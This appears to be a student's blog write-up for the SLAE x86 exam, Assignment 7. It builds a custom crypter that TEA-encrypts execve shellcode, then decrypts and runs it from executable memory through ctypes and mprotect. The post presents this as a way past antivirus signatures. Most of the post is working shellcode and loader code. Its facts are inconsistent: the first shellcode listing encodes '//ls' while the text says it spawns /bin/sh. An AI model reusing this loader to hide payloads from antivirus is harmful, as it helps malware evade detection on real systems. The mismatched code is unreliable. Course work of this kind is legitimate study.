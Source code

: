 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 7"
categories: certs slae 
---
```



## Assignment #7 - Custom crypter
_Student ID: **PA-7854**_

The assignment indications are as follows:
* Create a custom crypter 
* Feel free to use any existing encryption schema
* Using any programming language 

The code is available at [my github repo](https://github.com/0xKiewicz/SLAE).


#### Encryption
Sometimes encryption is helpful to bypass fingerprint/signature antivirus mechanisms. It can also defeat users when trying to disassemble too, as it appears as gibberish. 

There are a few [block ciphers](https://en.wikipedia.org/wiki/Block_cipher#Notable_block_ciphers) we can use, but to keep things easy, I picked up the [Tiny Encryption Algorithm](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm).
As written in the _properties_ section in previous link, this cipher *has a few weaknesses*, so it is being used here only as part of an example, but not for a real use case.

Having said that, let's start.


#### Crypter
We are going to use the previous `execve-stack` shellcode, which runs `/bin/sh`:
```nasm
\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Instead of reinventing the wheel and writing my own script from scratch, I have found a lot of implementations of TEA (Tiny Encryption Algorithm), which i can use for this task, I implement it by using the [PyTEA](https://github.com/codeif/PyTEA), a Python library.


```python
key = b'slaeisthebest!!!'
tea = TEA(key)
shellcode_data  = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
encrypted = tea.encrypt(shellcode_data)
print('Encrypted hex:', encrypted.hex())
sleep(1)
print('Decrypting and running...')
sleep(1)
decrypted = tea.decrypt(encrypted)

shellcode = ctypes.create_string_buffer(bytes(decrypted))
function = ctypes.cast(shellcode, ctypes.CFUNCTYPE(None))

addr = ctypes.cast(function, ctypes.c_void_p).value
libc = ctypes.CDLL('libc.so.6')
pagesize = libc.getpagesize()
addr_page = (addr // pagesize) * pagesize
for page_start in range(addr_page, addr + len(shellcode_data), pagesize):
        assert libc.mprotect(page_start, pagesize, 0x7) == 0

        function()
```

We simply encrypt by using the key *slaeisthebest!!!* and print it on screen. Then we just decrypt and run the shellcode in a memory segment which there are executable permissions.

That's all the certification requirements and thanks for having the time to read this further :).

*SLAEx64* coming soon ;)
